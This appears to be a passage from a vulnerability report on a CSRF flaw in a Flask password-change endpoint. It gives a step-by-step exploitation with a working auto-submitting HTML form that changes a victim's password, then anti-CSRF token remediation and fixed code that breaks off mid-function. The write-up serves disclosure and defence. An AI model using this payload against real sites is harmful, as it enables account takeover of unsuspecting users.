 ### Exploitation

1. An attacker creates a malicious website with a hidden form that submits to the vulnerable application's password change endpoint
2. When a victim who is authenticated to the vulnerable application visits the attacker's site, the form is automatically submitted
3. The victim's password is changed without their knowledge or consent

Step-by-step exploitation:

1. Create a malicious HTML page with the following content:

```html
<html>
  <body onload="document.getElementById('csrf-form').submit()">
    <form
      id="csrf-form"
      action="http://vulnerable-app.com/change-password"
      method="POST"
    >
      <input type="hidden" name="current_password" value="password123" />
      <input type="hidden" name="new_password" value="hacked123" />
      <input type="hidden" name="confirm_password" value="hacked123" />
    </form>
  </body>
</html>
```

2. Host this page on a server or send it directly to the victim
3. When the victim visits the page while being authenticated to the vulnerable application, their password will be changed to "hacked123"

Note: This attack assumes the attacker knows the victim's current password. However, in some cases, the application might have other vulnerabilities (like password reuse or predictable passwords) that make this attack feasible.

### Remediation

Implement CSRF protection by using anti-CSRF tokens. These tokens should be:

1. Unique per user session
2. Included in the form as a hidden field
3. Validated on the server side for each state-changing request

### Fixed Code

```python
from flask import Flask, request, render_template, redirect, session, jsonify, abort, make_response, Response, url_for, flash
import secrets  # For generating secure tokens

# Add a function to generate CSRF tokens
def generate_csrf_token():
    if 'csrf_token' not in session:
        session['csrf_token'] = secrets.token_hex(32)
    return session['csrf_token']

# Make the CSRF token available in all templates
app.jinja_env.globals['csrf_token'] = generate_csrf_token

@app.route('/change-password', methods=['GET', 'POST'])
def change_password():
    current_user = ensure_user_object(get_current_user())
    if not current_user:
        return redirect('/login')

    error = None
```